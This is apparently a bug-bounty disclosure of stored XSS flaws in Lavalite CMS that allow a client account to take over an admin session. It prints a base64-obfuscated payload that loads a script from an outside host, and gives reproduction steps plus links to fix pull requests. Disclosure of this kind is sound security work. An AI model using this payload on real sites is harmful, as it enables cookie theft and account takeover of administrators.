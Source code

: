 # Description
Admin cookies and other details leading to an account take over to a higher level privilege from a client account of lavalite CMS and other multiple XSS in different pages due to acceptance of unsanitised data .check the permalinks to know more on the pages causing XSS.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC For Account TakeOver
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
* other POC's are available at the corresponding PR pages
# PermaLinks
* [POC](https://drive.google.com/drive/folders/1QfRhBX54orE65lq6rM33Fchft_gsaMHI?usp=sharing)
* [ISSUE @ team page](https://github.com/418sec/huntr/pull/691)
* [issue @ contact creation and management page](https://github.com/418sec/huntr/pull/692)
* [issue @ roles page](https://github.com/418sec/huntr/pull/694)
* [issue @ permissions management page](https://github.com/418sec/huntr/pull/695)
* [issue @ manage blocks page](https://github.com/418sec/huntr/pull/696)
* [issue @ menu page](https://github.com/418sec/huntr/pull/697)
* [issue @ index management page](https://github.com/418sec/huntr/pull/705)
* [issue @ registration page](https://github.com/418sec/huntr/pull/693)
